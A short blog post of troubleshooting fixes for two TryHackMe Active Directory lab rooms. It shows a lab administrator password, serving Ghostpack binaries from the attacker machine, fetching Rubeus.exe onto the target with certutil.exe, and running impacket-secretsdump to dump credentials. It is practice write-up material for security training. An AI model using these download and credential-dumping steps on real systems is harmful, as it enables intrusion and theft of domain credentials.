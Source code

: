 ```yaml
---
layout: post
title:  "TryHackMe – fixes"
date:   2025-01-12 14:10:00 +1000
categories: blog
tags: [cloud, offsec]
subtitle: "Fighting old battles again?"
image: Screenshot-2025-01-13-09-42-06-TryHackMe-TAbdiukov.png
---
```


![Screenshot-2025-01-13-09-42-06-TryHackMe-TAbdiukov.png](Screenshot-2025-01-13-09-42-06-TryHackMe-TAbdiukov.png)

List of issues encountered and their corresponding bypasses / fixes

## Attacking Kerberos - Harvesting & Brute-Forcing Tickets w/ Rubeus

The middleman machine's RDP never accepts the password provided. 

Luckily, an SSH service is running on the host, atypical for Windows.

First, let's connect via SSH and confirm connectivity
```
ssh Administrator@<KerberosServer>
Password: P@$$W0rd
```

Yay! However, if SSH is utilized, there will be problems compiling software or getting Rubeus on the host as it's not connected to the internet.

Luckily, someone compiled software we need: [https://github.com/r3motecontrol/Ghostpack-CompiledBinaries](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries)

On AttackBox, open terminal tab and run the following commands,
```
mkdir share && cd share
git clone https://github.com/r3motecontrol/Ghostpack-CompiledBinaries
python3 -m http.server 8000
```

As a sanity-check, on AttackBox, open Firefox and confirm the Rubeus download URL. It should be,
```
http://<AttackBox_IP>:8000/Ghostpack-CompiledBinaries/Rubeus.exe
```

Then, we can work around connectivity issues using an old OffSec OSCP trick to infiltrate/exfiltrate data. Back to KerberosServer SSH, run:
```
cd Downloads
certutil.exe -urlcache -split -f http://<AttackBox_IP>:8000/Ghostpack-CompiledBinaries/Rubeus.exe Rubeus.exe
```

You should then see a request in the http.server logs. Now you can run Rubeus. Luckily, all required .Net Framework packages are already on the host.

## Attacktive Directory - Elevating Privileges within the Domain

I encountered issues with the operation of `secretsdump.py` (stock or modified). Maybe it's related to AttackBox, maybe it's related to impacket. However, I found an easy workaround to the problem,

```
apt install python3-impacket
```
 
you should see,

```
After this operation, 27.0 MB of additional disk space will be used.
Do you want to continue? [Y/n] y
```

now you can proceed as follows,

```
impacket-secretsdump <desired-secretsdump.py-command>
```


----------------------
Tim Abdiukov
